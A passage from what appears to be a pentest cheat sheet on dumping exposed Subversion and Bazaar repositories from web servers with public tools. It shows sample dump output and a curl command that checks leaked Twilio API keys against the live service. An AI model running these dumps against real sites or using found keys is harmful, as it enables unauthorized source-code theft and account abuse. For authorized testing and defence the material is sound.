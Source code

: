 ### Automatic way : svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "url with .svn available"
```

## BAZAAR - Source code management

### Automatic way : rip-bzr.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-git.pl -v -u  
```

### Automatic way : bzr_dumper

```powershell
git clone https://github.com/SeahunOh/bzr_dumper
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish

$ bzr revert
 N  application.py
 N  database.py
 N  static/
```

## Leaked API keys

If you find any key , use the [keyhacks](https://github.com/streaak/keyhacks) from @streaak to verifiy them.

Twilio example :

```powershell
curl -X GET 'https://api.twilio.com/2010-04-01/Accounts/ACCOUNT_SID/Keys.json' -u ACCOUNT_SID:AUTH_TOKEN
```

## References

- [bl4de, hidden_directories_leaks](https://github.com/bl4de/research/tree/master/hidden_directories_leaks)
- [bl4de, diggit](https://github.com/bl4de/security-tools/tree/master/diggit)
- [Gitrob: Now in Go - Michael Henriksen](https://michenriksen.com/blog/gitrob-now-in-go/)
